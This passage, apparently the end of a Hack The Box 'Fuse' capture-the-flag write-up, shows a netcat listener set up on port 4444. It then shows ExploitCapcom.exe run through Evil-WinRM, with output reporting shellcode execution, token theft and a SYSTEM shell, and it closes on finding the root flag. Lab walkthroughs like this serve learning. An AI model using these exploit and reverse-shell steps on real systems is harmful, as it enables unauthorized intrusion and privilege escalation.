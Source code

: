 Second, we need to setup a listener on our local machine:

```bash
finlay@kali:~/htb/fuse$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, run the ExploitCapcom program:

```powershell
*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001C17CEE0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

And we see that we got a SYSTEM shell:

![system_shell](images/system_shell.png)

## Root.txt

And we find the root flag in C:\Users\Administrator\Desktop

![system_flag](images/system_flag.png)